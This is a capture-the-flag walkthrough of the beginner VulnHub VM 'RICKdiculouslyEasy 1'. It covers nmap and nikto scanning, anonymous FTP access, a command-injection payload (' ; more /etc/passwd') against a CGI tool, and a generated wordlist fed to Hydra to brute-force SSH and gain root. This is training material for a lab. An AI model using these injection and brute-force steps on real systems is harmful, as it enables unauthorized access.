 ## RICKdiculouslyEasy 1 VulnHub VM walkthrough

RICKdiculouslyEasy 1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/

```
This is a fedora server vm, created with virtualbox.
It is a very simple Rick and Morty themed boot to root.
There are 130 points worth of flags available (each flag has its points recorded with it), you should also get root.
It's designed to be a beginner ctf, if you're new to pen testing, check it out!
```

## Solution

#### 1. Sudo Netdiscover
![](Assets/1.PNG)
> IP address: 192.168.1.10

#### 2. Port scan: Nmap -sC -sV -Pn -A -p- 192.168.1.10
![](Assets/2.PNG)
![](Assets/2.1.PNG)
> 21 -> ftp -> vsftpd 3.0.3 -> anonymous

> 22 -> ssh

> 80 -> Apache httpd 2.4.27

> 9090 -> Cockpit webservice
  
> 13337 -> unknown -> flag (10 pt) => total 10 points
  
> 22222 -> ssh -> OpenSSH 7.5 (protocol 2.0)
  
> 60000 > unknown

#### 3. Nikto: Nikto -h 192.168.1.10
![](Assets/3.PNG)
> Passwords/ directory

> Icons/ directory

#### 4. Browser > http://192.168.1.10/passwords/
![](Assets/04.PNG)
> FLAG.txt

> passwords.html

#### 5. Browser > http://192.168.1.10/passwords/FLAG.txt
![](Assets/4.PNG)
> Got Flag (10 pt) = total points 20

#### 6. Browser > http://192.168.1.10/passwords.html page source code
![](Assets/6.PNG)
> password -> winter

#### 7. Browser > http://192.168.1.10/icons/
![](Assets/7.PNG)
> nothing special other than directory listing

#### 8. Browser > http://192.168.1.10/robots.txt
![](Assets/11.PNG)
> Found /cgi-bin/root_shell.cgi

> Found /cgi-bin/tracertool.cgi

#### 9. Browser > view-source:http://192.168.1.10/cgi-bin/root_shell.cgi
![](Assets/12.PNG)
> Nothing useful

#### 10. Browser > http://192.168.1.10/cgi-bin/tracertool.cgi
![](Assets/13.PNG)
![](Assets/14.PNG)
> Vulnerable to command injection

![](Assets/15.PNG)
> cat command doesn't work. Can use 'more', 'less','head' or 'tail' instead

#### 11. Payload -> ; more /etc/passwd
![](Assets/16.PNG)
> Note users 'morty', 'ricksanchez' and 'summer'

#### 12. Ftp 192.168.1.10 > anonymous:anonymous 
![](Assets/8.PNG)
> logged in

![](Assets/9.PNG)
![](Assets/9.1.PNG)
> ftp://192.168.1.10 -> Flag.txt (10 pt) => total 30 points

#### 13. ssh 192.168.1.10 22
![](Assets/17.PNG)
> Not accessible

#### 14. Browser > http://192.168.1.10:9090
![](Assets/18.PNG)
> Got flag (10 pt) => total 40 points

#### 15. Try winter password for users found in step 11 via SSH on 22222 port
![](Assets/19.PNG)
> Didn't work

![](Assets/20.PNG)
> Worked for user 'Summer'

> Got flag (10 pt) => total 50 points

![](Assets/21.PNG)
> password for unzipping journal.txt.zip is in safe_password.jpg

![](Assets/22.PNG)
> Pull jpg file in host machine

![](Assets/23.PNG)
> Got safe password

![](Assets/24.PNG)
> Got Flag (20 pt) => total 70 points

![](Assets/25.PNG)
![](Assets/26.PNG)
> Used flag in journal.txt as argument for safe

> Got next flag (20 pt) => total 90 points

> Got Pattern for RickSanchez password

#### 16. Create python script for all possible password combinations using the clue to feed Hydra:
```
def main():
    LETTERS = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    DIGITS = '0123456789'
    BAND_WORDS = ['The', 'Flesh', 'Curtains']
    with open('rickpwd.txt', 'w') as f:
        for letter in LETTERS:
            for digit in DIGITS:
                for word in BAND_WORDS:
                    f.write('{}{}{}\n'.format(letter, digit, word))
        f.flush()
if __name__ == '__main__':
    main()
```
> rickpwd.txt created

#### 17. Hydra -l RickSanchez -P rickpwd.txt 192.168.1.10 ssh -s 22222
![](Assets/27.PNG)
> Password for RickSanchez user > P7Curtains

#### 18. ssh RickSanchez@192.168.1.10 -p 22222
![](Assets/28.PNG)
![](Assets/29.PNG)
> Got root and Flag (30 pt) => total 120 points

#### 19. Analyzing remaining ports: telnet 192.168.1.10 13337
![](Assets/30.PNG)
> Flag already found

#### 20. nc 192.168.1.10 60000
![](Assets/31.PNG)
> Got Flag (10 pt) => total 130 points

> Got all 130/130 points and owned root.
